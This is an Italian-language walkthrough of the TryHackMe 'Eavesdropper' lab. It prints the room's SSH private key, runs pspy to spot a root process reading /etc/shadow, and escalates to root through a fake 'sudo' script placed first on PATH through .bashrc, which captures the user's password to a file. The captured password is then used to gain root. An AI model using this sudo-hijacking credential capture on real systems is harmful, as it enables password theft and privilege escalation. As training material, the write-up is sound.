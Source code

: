 
#laboratorio #tryhackmelabs 

https://tryhackme.com/room/eavesdropper

Ascolta attentamente, potresti sentire una password!

Salve di nuovo, hacker. Dopo aver scoperto la chiave privata SSH di un utente, Frank , sei entrato in un ambiente di destinazione.

**Scaricare la chiave privata SSH allegata.**

**Nota:** se si utilizza AttackBox, è possibile copiare e incollare la chiave privata SSH utilizzando l'icona "Appunti" situata nel vassoio scorrevole, come mostrato nella GIF qui sotto:

```
nano id_rsa
```

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
F5iAvxBl12p5cAAAAKam9obkBhbGllbgE=
-----END OPENSSH PRIVATE KEY-----
```

```
chmod 600 id_rsa
```
Hai accesso a `frank`, ma vuoi essere `root`! Come puoi aumentare i privilegi? Se ascolti attentamente, forse puoi scoprire qualcosa che potrebbe aiutarti!


```
nmap -O -v -Pn 10.10.119.132
```
```
PORT   STATE SERVICE
22/tcp open  ssh
```
Ci connettiamo con ssh
```
ssh -i id_rsa frank@10.10.119.132
```

```
ls -al
```
```
frank@workstation:~$ ls -al
total 36
drwxr-xr-x 1 frank frank 4096 Mar 14  2022 .
drwxr-xr-x 1 root  root  4096 Mar 14  2022 ..
lrwxrwxrwx 1 frank frank    9 Mar 14  2022 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 frank frank 3771 Feb 25  2020 .bashrc
drwx------ 2 frank frank 4096 Mar 14  2022 .cache
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
drwxr-xr-x 1 frank frank 4096 May 16 13:10 .ssh
-rw-r--r-- 1 frank frank    0 Mar 14  2022 .sudo_as_admin_successful

```

```
id
```
```
uid=1000(frank) gid=1000(frank) groups=1000(frank),27(sudo)
```
Frank fa parte del gruppo sudo. Ma non conosciamo la sua password

Vediamo i processi in esecuzione
```
frank@workstation:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.7  12172  7208 ?        Ss   12:02   0:00 sshd: /usr/sbin/sshd -D [listener] 0 
root        4510  0.0  0.9  13580  8832 ?        Ss   12:44   0:00 sshd: frank [priv]
frank       4521  0.0  0.5  13904  5336 ?        R    12:44   0:00 sshd: frank@pts/0
frank       4522  0.0  0.4   5992  3916 pts/0    Ss   12:44   0:00 -bash
frank       7322  0.0  0.5   9268  5852 pts/0    S+   13:10   0:00 ssh -i id_rsa frank@workstation
root        7323  0.0  0.8  13580  8668 ?        Ss   13:10   0:00 sshd: frank [priv]
frank       7334  0.0  0.5  13908  5280 ?        R    13:10   0:00 sshd: frank@pts/1
frank       7335  0.0  0.3   5992  3856 pts/1    Ss   13:10   0:00 -bash
frank      10814  0.0  0.3   7644  3164 pts/1    R+   13:42   0:00 ps aux

```

Utilizziamo lo [script pspy](https://github.com/DominicBreuker/pspy) per elencare i processi in esecuzione. Lo script ci permette di visualizzare i processi in esecuzione di tutti gli utenti senza privilegi sudo. Scarica lo script sul tuo computer.

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

avvia un server web Python sulla tua macchina Kali con il seguente comando.

```
python3 -m http.server 8080
```

Ora, scarica lo script dal computer di destinazione.

```
wget http://10.10.31.120:8080/pspy64
```

```
chmod +x pspy64
```

```
./pspy64
```

```
2025/05/16 14:09:52 CMD: UID=1000  PID=13752  | /bin/sh /etc/init.d/ssh status 
2025/05/16 14:09:52 CMD: UID=1000  PID=13753  | /bin/sh /etc/init.d/ssh status 
2025/05/16 14:09:52 CMD: UID=1000  PID=13755  | /bin/sh /usr/sbin/service --status-all 
2025/05/16 14:09:52 CMD: UID=???   PID=13754  | ???
2025/05/16 14:09:53 CMD: UID=1000  PID=13756  | 
2025/05/16 14:09:54 CMD: UID=1000  PID=13757  | 
2025/05/16 14:09:54 CMD: UID=0     PID=13758  | sudo cat /etc/shadow 

```

una volta che Frank accede tramite SSH, un comando **(sudo cat /etc/passwd)** viene eseguito da root con privilegi sudo

**Sudo Hijacking**
Creeremo un file sudo dannoso che registra la password e la salveremo in un file e aggiungeremo il percorso del file a $PATH. 
Controlliamo l'attuale $PATH.

```
echo $PATH
```
```
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

```
pwd
```
```
frank@workstation:~$ pwd
/home/frank
```

 file sudo falso che salva la password in un file  pass.txt
```
nano sudo
```
```
#!/bin/bash
# Ask the user for login details
read -sp 'Enter frank Password: ' passvar
echo $passvar > /home/frank/pass.txt
```
è uno script Bash che chiede all'utente di inserire una password e poi tenta di scrivere questa password in un file

diamo permessi di esecuzione
```
chmod +x sudo
```

Apriamo .bashrc ed aggiungiamo in alto la seguente riga

```
nano .bashrc
```
```
PATH=/home/frank:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

connettiamoci da un nuovo terminale in ssh per ottenere il file con la password
```
ssh -i id_rsa frank@10.10.119.132
```
```
cat pass.txt
```
```
frank@workstation:~$ ls
pass.txt  pspy64  pspy64.1  sudo
frank@workstation:~$ cat pass.txt
!@#frankisawesome2022%*
```
password ottenuta
```
!@#frankisawesome2022%*
```
Passiamo a root con la password ottenuta
```
sudo su
```

```
whoami
```
```
root
```

```
cd /root
```

```
ls
```

```
cat flag.txt
```

```
flag{xxxxxxxxxxxxxxxxxxxx}
```


